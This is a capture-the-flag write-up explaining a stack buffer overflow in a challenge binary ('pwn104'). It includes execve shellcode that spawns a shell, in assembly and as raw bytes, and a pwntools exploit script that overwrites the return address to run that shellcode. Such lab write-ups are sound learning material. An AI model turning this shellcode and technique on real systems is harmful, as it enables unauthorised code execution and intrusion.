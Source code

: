 # Challenge 4

![](attachments/db1758d9fb570f0cdb4592108ca57b59.png)

### Vulnerability:
the `read()` call near the end is vulnerable

**Manual:**

![](attachments/4da2419acfc78d004be682f5b527145e.png)

The code is basically calling
`read(stdin, *buf, 200);` - `buf` here being 80 characters.
So we attempt to read up to 200 bytes from *stdin* into the buffer, starting at `buf`
Completely overwriting our buffer and anything past it!

Testing buffer overflow size we end up at 80 (as expected from the code above giving us `0x50` (80))

![](attachments/b5434cd15f15a9dddea075260a58856f.png)

![](attachments/b6b44c7f8def649b29f2d9a59d01ed59.png)

## The Exploit
So we have our opening message, hinting they want us to run our shellcode ("executable powers"), the address you're seeing is where our input starts, the start of our buffer in memory.

![](attachments/d8af53b5d8ae6ac260f5b7d837e7e8c8.png)

As seen here in the code, `[buf]` being the buffer for our input of size `0x50` (80)

![](attachments/a1a007161ea3321b0dfa0b30321ae2f9.png)

So we'll write our shellcode to our buffer, then overflow the buffer to overwrite our **RBP** and more importantly, our **RIP**'s return address on the stack, and replace that with the address pointing to our shellcode.
So our full exploit would be: `[Shellcode + fill leftover bufferspace + new RBP + new RIP]`

For our shellcode I was looking at some publicly available ones and the built in pwn-tools shell code without luck until I came across this one: https://www.exploit-db.com/exploits/46907 -

```assembly
global _start
section .text

_start:
  xor rsi, rsi                ; Set RSI to 0
  push rsi                    ; RSI to stack
  mov rdi, 0x68732f2f6e69622f ; set RDI = "/bin//sh"
  push rdi                    ; Push Value to stack
  push rsp                    ; Push Pointer to value, to stack
  pop rdi                     ; Load pointer to "/bin//sh"
  push 59                     ; Push 59
  pop rax                     ; 59 to RAX ; OPcode for syscall.execve()
  cdq                         ; Copies the sign bit of RAX (0)
  syscall                     ; Sys call ; execve(*rdi, 0, 0)
```

Bytes: 
`\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

**CDQ**
The CDQ instruction copies the sign (bit 31) of the value in the EAX (RAX) register into every bit position in the EDX (RDX) register. (more info; https://www.felixcloutier.com/x86/cwd:cdq:cqo )
So because our RAX is currently '59' we get this
```
RAX: 0x000000000000003B
       ^
       |--------------| - Every bit is set to 0
RDX: 0x0000000000000000
```

**Syscall 59**

![](attachments/161a8f3ae54b55ef9fbde3e0e4a2997a.png)
### Exploit script

```python
from pwn import *
import sys

# Shellcode execve("/bin//sh") ; https://www.exploit-db.com/exploits/46907
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
shell_size = len(shell)
log.info(f"Shellcode size: {shell_size}")

# Random filler address for RBP
rbp = p64(0xDEADBEEF)

if sys.argv[1] == "local":
    proc = process("./pwn104-1644300377109.pwn104")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))

# Get Return address
addr = re.search(r'[0][x].*', proc.recvline_regexS('[0][x].*')).group()
log.info(f"Target address: {addr}")
addr = p64(int(addr, 16))

# Finishing Payload, padding shell with NULL-bytes with our 0x50 buffer size
payload = shell.ljust(0x50, b'\x00') + rbp + addr
log.info(f"Payload: {payload}")

# Send payload and go interactive for shell
proc.sendline(payload)
proc.interactive()
```

### Running it remotely:
![](attachments/522e3a7c58a9d4ba85859ff90b6f59c5.png)